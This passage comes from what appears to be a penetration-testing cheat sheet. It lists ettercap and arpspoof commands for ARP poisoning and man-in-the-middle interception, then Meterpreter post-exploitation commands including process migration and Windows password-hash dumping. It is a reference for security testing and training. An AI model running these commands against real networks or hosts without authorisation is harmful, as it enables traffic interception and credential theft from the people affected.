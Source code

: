- ARP poisoning:

  ```bash
  ettercap -T -q -i [interface] -M arp:remote /[target]/ /[gateway]/
  ```

### ARP Spoofing with arpspoof

- Enable IP forwarding:

  ```bash
  echo 1 > /proc/sys/net/ipv4/ip_forward
  ```

- ARP spoof target:

  ```bash
  arpspoof -i [interface] -t [target-IP] [gateway-IP]
  ```

[Back to Top](#table-of-contents)

---

## 10. Post Exploitation

### Meterpreter Commands (Metasploit)

- List processes:

  ```bash
  ps
  ```

- Migrate to another process:

  ```bash
  migrate [PID]
  ```

- Get system information:

  ```bash
  sysinfo
  ```

- Dump password hashes (Windows):

  ```bash
  hashdump
  ```

- Capture a screenshot:

  ```bash
  screenshot
  ```

### Privilege Escalation Enumeration Scripts

- Linux:
